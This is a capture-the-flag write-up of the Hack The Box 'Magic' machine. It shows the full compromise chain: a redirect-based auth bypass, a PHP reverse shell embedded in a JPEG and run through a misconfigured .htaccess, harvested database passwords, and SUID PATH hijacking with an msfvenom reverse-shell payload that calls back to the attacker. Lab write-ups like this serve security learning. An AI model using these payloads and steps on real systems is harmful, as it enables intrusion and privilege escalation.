


Magic is a Linux machine rated Medium on HTB.

## Port Scan

`nmap -sC -sV 10.10.10.185`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The SSH and HTTP ports are open.

## Bypassing Website Authentication

Dirbusting reveals `upload.php`. Presumably, it's for logged in users to upload images that were display on the index page.

As expected, trying to access `upload.php` (without authentication) using the browser redirects us to `login.php`.

Let's curl the page to see what's the actual response that's redirecting us. Including the verbose flag allows us to examine the response headers.

`curl -v http://10.10.10.185/upload.php`

```
*   Trying 10.10.10.185:80...
* TCP_NODELAY set
* Connected to 10.10.10.185 (10.10.10.185) port 80 (#0)
> GET /upload.php HTTP/1.1
> Host: 10.10.10.185
> User-Agent: curl/7.67.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Thu, 07 May 2020 15:28:26 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Set-Cookie: PHPSESSID=3ocj08qjtnbub1nj7b2og1sjbm; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Location: login.php
< Content-Length: 2957
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE HTML>
<SNIP>
        <h1>Welcome Admin!</h1>
        <div class="frame">
            <div class="center">
                <div class="bar"></div>
                <div class="title">Select Image to Upload</div>
                <form action="" method="POST" enctype="multipart/form-data">
                    <div class="dropzone">
                        <div class="content">
                            
                            <span class="filename"></span>
                            <input type="file" class="input" name="image">
                        </div>
                    </div>
                    <input class="upload-btn" type="submit" value="Upload Image" name="submit">
                </form>
            </div>
        </div>
    </section>

```

`curl` does not follow redirects by default. This behaviour exposes the contents of `upload.php`.

With the information gleaned from the page, we can attempt to generate an upload request.

## Uploading A Payload In An Image

Instead of creating the request from scratch using Burp or python requests, here we create a stripped down version of the upload form, and let the browser do the work for us.

```
<form action="http://10.10.10.185/upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="image">
    <input type="submit" value="Upload Image" name="submit">
</form>
```

The form fields and attributes correspond to the exposed `upload.php`, so it should be able to upload files to the server.

This is how our upload form looks like.



### Creating The Malicious Image

With `wrjpgcom`, we can insert a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) payload into the comment field of the jpeg file.

`wrjpgcom -comment "$(cat sorryfortheshell.php)" 5.jpeg > sorryforthis.php.jpeg`

* The `$()` does a command substitution in bash. Here, it executes the command `cat sorryfortheshell.php` and replaces the `$()` expression with the stdout of the command.

* `5.jpeg` is just an image I downloaded earlier from the website.

### Uploading The Malicious Image

With the upload form we created, we can upload `sorryforthis.php.jpeg` to the Magic machine.

As the returned response is a redirection, we can only see the actual response text if we proxy the request through Burp.



### Triggering The Payload

We can trigger the a reverse shell by requesting for the payload file we uploaded.

`curl http://10.10.10.185/images/uploads/sorryforthis.php.jpeg`

And we get a reverse shell for `www-data`.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 51678
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:07:49 up  2:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

One question. Why does the server execute our `.php.jpeg` file as a php file?

We can find the answer in the server configuration.

While everything looks fine in the php config files under `/etc/apache2`, the `/var/www/html/Magic` directory contains a misconfigured `.htaccess` file.

```
cat .htaccess
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
   order deny,allow
   deny from all
</Files>
```

The regex that matches php files fails to ensure that `.php` comes at the end of the filename. This enables the double extension parsing.

For more details, refer to this [OWASP guide on unrestricted file upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload).

## Finding Cleartext Credentials

With the low-priv `www-data` shell, let's run linpeas to try to escalate our privilage.

```
[+] Finding 'username' string inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
<SNIP>
/var/www/Magic/db.php5:    private static $dbUsername = 'theseus';
<SNIP>
```

The results show that `db.php5` might contain database credentials for `theseus`. Let's take a closer look.

`cat db.php5`

```
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
<SNIP>
```

Indeed, the files has the credentials for connecting to the database Magic on locahost.

For manual enumeration, we can use a grep command. (based on linpeas script)

`grep -RiIE "username.*[=:].+" /var/www 2>/dev/null`

This grep does a recursive search for username values. It looks for usernames with values assigned by `=` or `:`, instead of just the string `username` in isolation.

## Dumping SQL Database

With the databse credentials, let's dump the database for further enumeration.

[The php script here](https://gist.github.com/micc83/fe6b5609b3a280e5516e2a3e9f633675) offers a simple way to dump the database as the mysql client is not available on the host.

Replace the fields with the database credentials we gathered, and upload it.

```
www-data@ubuntu:/tmp$ wget http://10.10.14.7:8000/dbdump.php
<SNIP>
dbdump.php          100%[===================>]     430  --.-KB/s    in 0s      

2020-04-22 00:29:28 (70.2 MB/s) - 'dbdump.php' saved [430/430]
```

Then, let's run it with the command below.

`php dbdump.php`

Finally, we can view its output.

`cat dump.sql`

```
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1
<SNIP>
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<SNIP>
```

We found another set of credentials.

* username: admin
* password: Th3s3usW4sK1ng

While they are credentials for the Magic website, the password could have been **reused**.

In this case, it is also theseus' account password. We can switch to his account with the command below.

`su theseus`

## Enumerating Group Files

Basic enumeration reveals that theseus belong to the `users` group.

```
$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

We can look for files belonging to the `users` group.

```
$ find / -group users 2>/dev/null
/bin/sysinfo
```

We find a binary sysinfo, and as part of the `users` group, we have read and execute permissions over it.

`-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo`

Not only that, the setuid bit is on, so this binary runs with its owner's permissions (root). 

## Examining The Binary

Executing the binary returns a system report on the machine's hardware.

Running the strings command on it reveals more useful information.

`strings sysinfo`

```
<SNIP>
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
<SNIP>
```

We see that it calls the three binaries above. And more importantly, **it did not call them by their full paths**.

This is a vulnerability we can take advantage off.

## Exploiting SUID

First, let's modify the PATH environment variable.

This [command](https://opensource.com/article/17/6/set-path-linux) below will add the `/tmp` directory to our path variable. This means that the shell will look in the `/tmp` directory first when any binary is called by its name (and not its full path).

`export PATH=/tmp:$PATH`

Next, generate a binary payload with msfvenom.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.X.X LPORT=9999 -f elf > lshw`

Then, place the generated payload `lshw` in the `/tmp` directory.

Finally, execute `sysinfo`.

When executed, it executes `lshw` as root. But due to our altered $PATH, the program searches for `lshw` in `/tmp` and executes it.

Hence, instead of executing the actual lshw tool, it executes our payload at `/tmp/lshw` as **root**, causing a reverse shell to connect back to us.

```
# nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 45218
whoami
root
```

## Thoughts

This is an enjoyable box that reinforces some fundamental skills.

**SUID**

* https://percussiveelbow.github.io/linux-privesc/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

**PHP Unrestricted File Upload**

* https://www.w3schools.com/php/php_file_upload.aspo
* https://www.whitewinterwolf.com/posts/2017/12/02/wwwolfs-php-webshell-users-guide/
* https://security.stackexchange.com/questions/213641/why-does-the-file-shell-php-jpg-can-execute-as-a-php-file-but-shell-jpg-cann
* https://www.pivotpointsecurity.com/blog/secure-file-upload-attack-vulnerabilities/

**Apache Misconfiguration**

* https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler
* https://www.apachelounge.com/viewtopic.php?t=7763 
